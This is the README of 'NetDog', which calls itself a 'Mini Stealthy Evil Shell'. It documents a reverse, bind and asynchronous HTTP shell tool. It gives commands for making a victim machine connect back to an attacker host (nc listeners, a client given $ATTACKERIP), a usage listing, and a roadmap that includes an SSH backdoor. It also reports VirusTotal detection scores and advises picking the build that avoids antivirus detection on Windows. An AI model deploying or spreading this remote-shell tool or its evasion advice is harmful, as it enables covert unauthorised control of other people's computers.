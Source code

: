 # NetDog
Mini Stealthy Evil Shell

## Roadmap
- Reverse Shell
    - [x] TCP
        - [ ] TLS
    - [x] UDP
        - [ ] DTLS
- Bind Shell
    - [x] TCP
        - [ ] TLS
    - [x] UDP
        - [ ] DTLS
    - [ ] Authentication
- HTTP shell
    - Web Shell (see my other project, [gohfs](https://github.com/finzzz/gohfs))
    - [x] Asynchronous
        - [ ] TLS
        - [ ] Authentication
- Others
    - [x] Auto reconnect
    - [ ] test IPv6
    - [ ] SSH backdoor server

## Choosing binary
- There are only 2 types: `nd` (linux/amd64) `nd.exe` (windows/amd64)  
- For windows, choose the one without upx to avoid being detected as virus.  

## Reverse shell
```
+--------------------------------+            +--------------------------------+
|                                |            |                                |
|                         victim +------------> attacker (10.1.1.1)            |
| ./nd -host 10.1.1.1 -port 1234 |            | nc -lvnp 1234                  |
|                                |            |                                |
+--------------------------------+            +--------------------------------+
```

## Bind shell
```
+--------------------+            +--------------------+
|                    |            |                    |
|  victim (10.1.1.2) <------------+ attacker           |
|       ./nd -l 1234 |            | nc 10.1.1.2 1234   |
|                    |            |                    |
+--------------------+            +--------------------+
```

## HTTP shell
### Asynchronous
```
+-------------------------+                 +------------------------+
|victim                   |                 |attacker                |
|http client              |                 |http server             |
|                         |                 |                        |
|                         |   find command  |                        |
|                         +----------------->                        |
|            execute <----+                 |                        |
|                         +----------------->                        |
|                         |    response     |                        |
|                         |                 |                        |
|                         |                 |                        |
+-------------------------+                 +------------------------+
```
```bash
./nd -async -m http -server # server
./nd -host $ATTACKERIP -port $ATTACKERPORT -async -m http # client
```

## AV status
2021-05-23 03:13:04 UTC

| type | size | score | windows defender |
| - | - | -| - |
|without upx | 2.2 MB|[4/69](https://www.virustotal.com/gui/file/b042c2498ab6ee36ce998842d4ed4592d46f55026677f1f6e750edf7b6a2411d/detection)| pass|
|with upx | 663 KB|[6/69](https://www.virustotal.com/gui/file/b6f9b09b20cda55d3e87d4f3c74971bffa65781c297ea4742c5987cc69b9b391/detection)| not pass|

## Usage
```
$./nd -h
Usage of ./nd:
  -host string
        Host (default "127.0.0.1")
  -l    Bind mode
  -port string
        Port (default "1234")
  -recon string
        Reconnecting Time (default "15s")
  -shell string
        Unix Shell (default "/bin/sh")
  -u    Enable UDP
```